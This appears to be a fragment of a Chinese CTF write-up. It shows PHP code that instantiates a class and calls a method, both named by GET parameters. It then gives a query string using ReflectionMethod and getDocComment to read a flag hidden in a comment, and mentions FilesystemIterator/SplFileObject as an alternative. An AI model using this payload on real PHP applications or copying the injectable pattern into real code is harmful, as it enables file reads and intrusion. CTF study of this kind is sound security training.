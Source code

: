```bash
    function t()
    {
        return ++self::$c;
    }

}

$rc=$_GET["rc"];   
$rb=$_GET["rb"];    
$ra=$_GET["ra"];    
$rd=$_GET["rd"];   
$method= new $rc($ra, $rb);   
var_dump($method->$rd());
```

关键是

```bash
$method= new $rc($ra, $rb);   
var_dump($method->$rd());
```

其实可以打 FilesystemIterator+SplFileObject，但是由于题目描述以及题目名字的提示，flag 在注释里，可以利用 ReflectionMethod

```bash
?rc=ReflectionMethod&ra=User&rb=a&rd=getDocComment
```

# 参考

[php 原生类的总结\_php 原生类-CSDN 博客](https://blog.csdn.net/unexpectedthing/article/details/121780909)

[『CTF Tricks』PHP-绕过 open\_basedir\_directoryiterator php ctf-CSDN 博客](https://blog.csdn.net/Xxy605/article/details/120221577)
